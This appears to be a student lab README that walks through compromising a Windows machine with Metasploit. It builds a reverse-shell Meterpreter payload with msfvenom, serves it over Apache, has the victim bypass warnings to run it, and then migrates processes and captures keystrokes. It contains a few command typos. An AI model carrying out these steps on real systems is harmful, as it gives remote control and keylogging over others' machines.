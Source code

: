 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/67ba58ca-7032-4ff2-ab69-0242bbb60df8)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/95c65d86-8ce0-4855-ad03-0c7f254be941)


copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/7fd060e6-1695-4592-87a5-0f94e6a7e6d0)


Start apache server
sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/19462333-65a6-4d0a-bfdd-4bf3f7ce9541)

Check the status of apache2

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/ea765db1-64ce-4d23-a11b-fbeeb99d5059)


## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/e8e64906-9674-4960-ad57-fd4d61b19675)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/831609be-a45e-455f-930f-49b3c1f8ba94)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/4647d707-d536-4127-acdc-047199deb206)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/39834a3b-7bb8-47d1-8974-817a342af301)


Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/d33b6e19-1ed6-4b9f-81c5-5804458f5c96)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/fe2b1cfc-89c7-4dd2-bfb0-cf44f01134c8)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/a16e40a6-bca4-4c17-b68d-96840fe5e0e3)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/4505f0a5-83c3-438f-bfc0-eaad817ff7f6)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/374948d5-71b1-4019-89c7-f6d37e314911)

![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/39924375-0e4b-45fa-af17-12a0053d990f)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/Kirupanandhan/Compromising-windows-using-Metasploit/assets/94386222/21bd7c9f-adc2-43ed-bebd-1f45be6136d8)






















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
